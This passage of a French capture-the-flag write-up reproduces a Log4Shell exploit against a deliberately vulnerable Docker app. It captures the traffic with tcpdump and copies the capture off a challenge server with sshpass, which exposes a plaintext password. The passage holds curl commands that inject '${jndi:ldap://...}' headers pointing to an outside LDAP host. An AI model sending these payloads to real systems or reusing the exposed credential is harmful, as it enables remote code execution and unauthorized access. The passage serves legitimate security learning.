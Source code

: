  ```
 ┌─[ribt@ribt-laptop-mint]─[~]
 └──$ curl localhost:8080 -H '${jndi:ldap://localhost:1389/}'
 ```



[Dans Wireshark](poc.pcapng), un échange TCP apparaît sur le port 1389 :

![image-20221110122739596](image-20221110122739596.png)

Le temps étant limité et je n'étant pas certain qu'un simple rejeu fonctionne sur l'environnement du challenge, je décide d'adopter une stratégie de bourrin. Je vais installer docker et tcpdump sur la machine du challenge pour rejouer une vraie exploitation de Log4j et capturer le trafic réseau.

```
root@malice:~# apt update

root@malice:~# apt install docker.io curl tcpdump
```

De nouveau, on lance trois terminaux :

```
root@malice:~# docker run –name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

```
root@malice:~# tcpdump -i ens33 -w /tmp/cap.pcap
```

```
root@malice:~# curl localhost:8080 -H '${jndi:ldap://174.10.54.15:1389/}'
```



On peut désormais récupérer le fichier de capture :

```
┌─[ribt@ribt-laptop-mint]─[~]
└──$ sshpass -p "bRrKXIKZEaIs1yR8Izo@" scp -P 4112 root@ssh-piratecraft-server-8n3uly.inst.malicecyber.com:/tmp/cap.pcap ./
```
